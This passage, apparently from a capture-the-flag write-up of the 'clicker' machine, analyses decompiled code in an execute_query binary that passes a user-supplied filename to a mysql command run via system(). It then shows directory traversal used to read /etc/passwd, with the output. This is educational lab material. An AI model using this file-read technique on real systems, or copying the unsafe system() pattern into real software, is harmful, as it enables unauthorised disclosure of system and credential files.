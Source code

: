         res = access(__dest,4);
        if (res == 0) {
          cmd_str[0] = '/'; // cmd_str = /usr/bin/mysql -u clicker_db_user
          cmd_str[1] = 'u'; //           --password='clicker_db_password'
          cmd_str[2] = 's'; //           clicker -v < \0
          cmd_str[3] = 'r';
    ...[snip]...
          cmd_str[78] = '<';
          cmd_str[79] = ' ';
          cmd_str[80] = '\0';
          strlen_res = strlen(local_78);
          strlen_res2 = strlen(filename_buffer);
          filename_buffer = (char *)calloc(strlen_res2 + strlen_res + 1,1);
          strcat(filename_buffer,local_78);
          strcat(filename_buffer,__dest);
          system(filename_buffer);
        }
        else {
          puts("File not readable or not found");
        }
        return_val = 0;
      }
    LAB_001015e1:
      if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
        return return_val;
      }
                        /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }



It gets a filename, appends it to the `mysql` command so that it's pass
as input, and runs it with `-v` which shows the file.

I'll also note that while case 0 is a failure, the default case runs
with `argv[2]` as the filename.

### File Read

I'll try to read a file using `execute_query` with type 223 (or any
other input that matches the default case) and directory traversal to
get the file I want. It's not able to read `user.txt`:



    www-data@clicker:/opt/manage$ ./execute_query 223 ../user.txt     
    File not readable or not found



But `/etc/passwd` works:


    www-data@clicker:/opt/manage$ ./execute_query 223 ../../../etc/passwd
    mysql: [Warning] Using a password on the command line interface can be insecure.
    --------------
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin